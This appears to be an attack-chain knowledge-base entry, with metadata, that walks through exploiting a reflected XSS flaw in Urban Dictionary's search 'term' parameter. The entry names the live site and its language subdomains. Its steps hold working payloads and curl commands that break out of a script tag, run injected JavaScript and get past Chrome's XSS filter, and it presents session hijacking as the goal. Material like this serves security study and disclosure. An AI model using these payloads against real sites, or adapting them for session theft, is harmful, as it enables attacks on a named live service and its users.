

---
tags:
  - xss
  - reflective-xss
  - javascript-injection
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Urban-Dictionary-Search-Endpoint]]'
  - '[[procedures/Analyze-JavaScript-Reflection-for-XSS]]'
  - '[[procedures/Craft-and-Test-Reflective-XSS-Payload]]'
  - '[[procedures/Verify-XSS-on-Language-Subdomains]]'
  - '[[procedures/Adapt-Payload-for-Chrome-Bypass]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:52.806Z'
description: >-
  A multi-step attack chain exploiting a Reflective XSS vulnerability in the
  Urban Dictionary search functionality, allowing arbitrary JavaScript execution
  through unsanitized reflection of the 'term' parameter in a script tag.
skill_level: intermediate
impact_level: high
id: fb902b21-07f5-4cdc-a09b-b0eadf7a2228
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflective XSS Exploitation in Urban Dictionary Search via Unsanitized Term Parameter

Multi-stage attack chain demonstrating the discovery and exploitation of a Reflective XSS vulnerability in Urban Dictionary's search functionality, where the 'term' parameter is reflected without escaping into a JavaScript object inside a <script> tag, enabling attackers to inject and execute arbitrary JavaScript for client-side attacks like session hijacking.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)

### Target Environment

- Web platform
- Access to http://www.urbandictionary.com and subdomains (e.g., de.urbandictionary.com)
- No authentication required

### Initial Access Requirements

- Public internet access
- No credentials needed
- Victim must visit the crafted malicious URL

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Urban-Dictionary-Search-Endpoint]]

**Objective**: Locate the search endpoint and confirm user input reflection in the page source.

**Instructions**: Open a web browser and navigate to the Urban Dictionary define page with a test term. Use developer tools to inspect the page source for reflection of the 'term' parameter.

Use [[commands/curl-fetch-urbandictionary]] to fetch the page and grep for reflection:

```bash
curl "http://www.urbandictionary.com/define.php?term=test" | grep -i "normalized"
```

**Expected Output**: HTML source showing the 'term' value reflected as Page.globals.normalized = "test" inside a <script> tag.

**Success Indicators**:
- 'term' parameter appears unsanitized in JavaScript object
- No escaping observed for quotes or special characters

### Step 2: Analyze JavaScript Reflection for XSS
procedure: [[procedures/Analyze-JavaScript-Reflection-for-XSS]]

**Objective**: Examine the reflected input context to identify breakout opportunities for XSS.

**Instructions**: In the browser developer console or by viewing source, locate the <script> tag containing Page.globals.normalized. Note that the input is placed within double quotes without escaping, e.g., "normalized": "test".

Simulate analysis by fetching and parsing:

```bash
curl "http://www.urbandictionary.com/define.php?term=lol" | grep -A5 -B5 "normalized"
```

**Expected Output**: Confirmation of JSON-like structure allowing early closure with </script><payload>.

**Success Indicators**:
- Input bounded by double quotes in script context
- Potential to inject </script> to break out

### Step 3: Craft and Test Reflective XSS Payload
procedure: [[procedures/Craft-and-Test-Reflective-XSS-Payload]]

**Objective**: Develop a payload that closes the script tag and injects executable JavaScript, then test for execution.

**Instructions**: Craft payload: Lol</script><svg onload=confirm(document.domain)>. URL-encode and append to term parameter. Visit the URL in a browser to trigger execution, observing a confirm dialog with the domain.

Test via browser or simulate fetch with [[commands/curl-test-xss-payload]]:

```bash
curl "http://www.urbandictionary.com/define.php?term=Lol%3C%2Fscript%3E%3Csvg%20onload%3Dconfirm(document.domain)%3E" -v
```

(Note: curl won't execute JS; use browser for verification.)

**Expected Output**: In browser, confirm dialog pops up showing 'www.urbandictionary.com'.

**Success Indicators**:
- JavaScript executes (alert/confirm)
- No errors in console

### Step 4: Verify on Language Subdomains
procedure: [[procedures/Verify-XSS-on-Language-Subdomains]]

**Objective**: Confirm the vulnerability persists across international subdomains.

**Instructions**: Repeat payload testing on subdomains like de.urbandictionary.com. Adapt URL and visit with payload.

Fetch to check:

```bash
curl "http://de.urbandictionary.com/define.php?term=%3C%2Fscript%3E%3Csvg%20onload%3Dconfirm(document.domain)%3E" | grep -i script
```

**Expected Output**: Similar reflection and execution in browser on subdomain.

**Success Indicators**:
- XSS triggers on multiple locales
- Consistent behavior across sites

### Step 5: Adapt Payload for Chrome Bypass
procedure: [[procedures/Adapt-Payload-for-Chrome-Bypass]]

**Objective**: Modify the payload to evade Chrome's XSS protections.

**Instructions**: Use alternative payload: </script><svg><script>/<@/>alert(1337)</script>. Test in Chrome browser.

Verify with encoded URL:

```bash
curl "http://www.urbandictionary.com/define.php?term=%3C%2Fscript%3E%3Csvg%3E%3Cscript%3E/%3C@/%3Ealert(1337)%3C/script%3E" -v
```

**Expected Output**: Alert box with '1337' in Chrome.

**Success Indicators**:
- Payload executes despite browser filters
- Alert or confirm fires

## Attack Chain Summary

### Key Achievements

1. Identified unsanitized reflection in script tag
2. Executed arbitrary JS via crafted payload
3. Verified cross-subdomain impact
4. Bypassed browser protections
5. Demonstrated potential for session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
